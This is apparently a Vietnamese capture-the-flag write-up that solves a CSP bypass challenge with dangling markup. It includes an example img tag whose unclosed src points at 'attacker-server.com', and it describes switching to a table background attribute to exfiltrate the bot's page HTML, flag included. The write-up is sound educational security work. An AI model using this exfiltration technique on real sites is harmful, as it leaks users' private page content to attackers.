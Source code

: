 ```diff  
@@ Web -  Client Challenges @@
```

## 2. CSP Bypass -  Dangling markup 2 [50 Points]

  - Cũng như challenge trên, ta có trang web như sau

    ![2](img/2.jpg)

  - Trang web sẽ hiện thị ra dòng chữ **Welcome** cùng với các ký tự mà ta nhập vào

    ![2-1](img/2-1.jpg)

  - Thử với payload ```Reflect XSS``` đơn giản ta thấy nó bị chặn bởi **Content Security Policy**

    ![2-2](img/2-2.jpg)

  - Kiểm tra CSP của trang ta thấy nó không cho phép thực thi script trong trang (giá trị none nghĩa là nó không fetch dữ liệu script từ bất kỳ nguồn nào hết)

    ![2-3](img/2-3.jpg)

  - Thử kiểm tra độ an toàn của CSP bằng trang web [CSP Evaluator](https://csp-evaluator.withgoogle.com/) ta có kết quả như sau

    ![2-4](img/2-4.jpg)

  - Như hình trên, ta sẽ thấy rằng tất cả các Policy đều an toàn, chỉ có dòng cuối gợi ý cho ta về DOM-Based XSS. Thử payload DOM-Based XSS ta thấy có thể khai thác được

    ![2-5](img/2-5.jpg)

  - Tới đây, dựa vào tiêu đề và gợi ý trên, ta có thể biết rằng đây là DOM-Based XSS dựa vào kỹ thuật *Dangling Markup* . Sau khi search google về kỹ thuật này, ta có thể thấy nó được mô tả chi tiết ở [đây](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) gồm cả khái niệm và cách khai thác.

  - Cụ thể, *Dangling markup* là khi attacker chèn 1 thẻ html vào DOM mà không đóng các attribute của thẻ đó lại, để nó 'treo lủng lẳng' như sau:

    ```html <img src='attacker-server.com/```  

    Khi trình duyệt render phản hồi, nó sẽ duyệt các ký tự tiếp theo của thẻ trên, đến khi gặp dấu single quote (```'```) tiếp theo thì dừng lại, các ký tự vừa được duyệt sẽ trở thành một phần của đường dẫn cho thuộc tính ```src```. Khi giao diện được render, request từ ```src``` được gửi tới server của attacker, họ sẽ đọc được 1 phần nội dung của trang web mà đáng ra họ không thể thấy.

  - Quay lại vấn đề cũ, để thực thi được DOM-Based XSS và gửi request ra ngoài, ta áp dụng **Dangling markup** sử dụng một thẻ html nào đó có thể gửi request tới đường dẫn chỉ định. 

    Ta thử với thẻ ```img``` và thấy rằng nó gửi một request tới webhook của mình kèm theo tham số là chuỗi html đằng sau 

    ![2-6](img/2-6.jpg)

  - Vào phần ***fill in this form*** và gửi link vulnerable trên đến con bot, khi nó mở đường link thì thẻ ```img``` sẽ tự động gửi request tới webhook của chúng ta, kèm theo chuỗi html đằng sau. Nhờ đó ta có thể thấy được đoạn html chứa flag mà bot thấy được.

  - Tuy nhiên, đợi 10p vẫn không thấy request tới, em đã kiểm tra lại và thấy thuộc tính ```src``` không nhận ký tự xuống dòng 

    ![2-7](img/2-7.jpg)

  - Em đã tìm kiếm xem còn thuộc tính nào tự động gửi request tương tự src không, thì tìm thấy được thuộc tính background trong table

    ![2-8](img/2-8.jpg)

  - Test thử và thấy nó nhận cả các ký tự xuống dòng làm đường dẫn

    ![2-9](img/2-9.jpg)

  - Cuối cùng ta gửi payload lại và nhận được flag như ta tính.

    ![2-10](img/2-10.jpg)



```diff
- Flag: D4NGL1NG_M4RKUP_W1TH_CHR0ME_NO_N3W_LINE
```

